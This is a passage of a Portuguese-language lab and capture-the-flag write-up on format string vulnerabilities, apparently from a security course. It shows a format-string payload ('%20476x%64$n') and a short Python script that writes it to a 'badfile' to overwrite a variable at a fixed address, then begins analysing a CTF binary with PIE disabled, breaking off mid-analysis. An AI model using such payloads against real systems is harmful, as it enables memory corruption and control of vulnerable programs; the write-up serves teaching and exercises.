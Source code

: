 Criamos uma *payload* com o endereço da variável *target* (0x080e5068), adicionamos "%x" 63 vezes e "%n" no final.

![](https://i.imgur.com/fVQtkOh.png)


### Task 3.B:

Aqui temos que alterar o valor para 0x5000, porque nesta subtarefa o objetivo é alterar o conteúdo da variável *target* para um valor específico. A tarefa é bem sucedida, somente, se o valor da variável se tornar 0x5000.

É necessário que 0x5000 caracteres sejam printed antes do %n.

Precisamos de criar a payload seguinte:
"%20476x%64$n"

```
#!/usr/bin/python3
import sys

target address = 0x080e5068

content = b'' 
content += (target_address).to_bytes(4,byteorder='little')
content += ("%20476x%64$n").encode('latin-1')

# Write the content to badfile
with open ('badfile', 'wb') as f:
    f.write(content)
```
![](https://i.imgur.com/NXHPypv.png)


# Capture The Flag

## Desafio 1

Comecemos por verificar as proteções do binário.

![](https://i.imgur.com/WMZHDoR.png)

PIE não está ativo, e assumimos também que ASLR não está ligado no servidor.
Isto garante-nos que endereços de memória que encontremos na nossa máquina serão os mesmos no servidor.

Explorando a source:

![](https://i.imgur.com/XOeex3a.png)

Vemos que a flag será loaded por load_flag() para uma variável global.

Encontrámos também uma format string vulnerability, o input do user é passado a printf diretamente:
